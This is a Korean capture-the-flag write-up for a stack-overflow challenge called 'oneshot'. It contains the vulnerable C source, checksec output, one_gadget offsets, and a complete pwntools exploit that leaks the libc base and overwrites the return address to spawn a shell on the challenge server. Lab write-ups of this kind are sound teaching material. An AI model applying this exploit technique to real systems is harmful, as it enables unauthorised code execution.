 ```c
// Name: oneshot.c
// gcc -o oneshot1 oneshot1.c -fno-stack-protector -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if (check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}
```

```bash
$ checksec ./oneshot
[*] './oneshot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# 분석

## 보호 기법

NX, PIE가 적용되어 있으며, stack canary는 적용되어 있지 않고, partial RELRO가 적용되어 있다.

## 코드 분석

* `oneshot.c:26` : `stdout`의 주소를 얻을 수 있다.
* `oneshot.c:28-35` : `msg`의 크기는 16바이트 뿐이나, 최대 46바이트의 데이터를 읽고 있으므로 스택 오버플로우가 발생한다. 단, `check` 변수가 일종의 스택 카나리 역할을 하고 있으므로 이를 신경 써서 데이터를 입력해야 한다.
* `oneshot.c:36` : `memset`을 호출한다.

# 공격

one_gadget 툴을 이용하여 oneshot gadget들의 offset을 얻어낼 수 있다.

```bash
$ one_gadget libc-2.23.so
0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
```

그러나, 이 offset을 이용하여 실제 메모리 상에서의 주소를 알아내기 위해서는 libc 파일의 베이스를 알아내야 한다. 이때, `oneshot.c:26`에서 `stdout`의 주소를 출력하므로 `stdout`의 offset을 이 주소에서 빼주면 libc 파일의 베이스를 얻을 수 있다.

이를 종합하여 익스플로잇 코드를 작성하면 다음과 같다.

```python
# Name: oneshot.py

from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 19210 # the given port

# conn = process('./oneshot') # local
conn = remote(HOST, PORT)

e = ELF('./oneshot')
libc = ELF('./libc-2.23.so')

one_gadget = 0xf1247

# leak libc base
conn.recvuntil(b'stdout: ')
stdout = int(conn.recvline()[:-1], base=16)
libc_base = stdout - libc.sym['_IO_2_1_stdout_']
one_gadget = libc_base + one_gadget

# exploit
payload = b'A' * 0x18
payload += p64(0)
payload += b'B' * 0x8
payload += p64(one_gadget)

conn.sendafter(b'MSG: ', payload)
conn.interactive()
```